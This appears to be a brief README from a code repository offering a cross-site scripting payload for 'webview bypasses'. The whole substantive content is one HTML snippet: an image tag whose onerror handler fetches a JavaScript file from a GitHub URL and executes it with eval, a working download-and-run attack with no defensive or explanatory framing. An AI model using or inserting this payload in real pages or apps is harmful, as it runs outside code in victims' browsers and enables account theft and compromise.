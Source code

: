 # Placeholder
## Some XSS that can be used for multiple webview bypasses.
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/nosnap4me/BlobbypassXSS/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
```
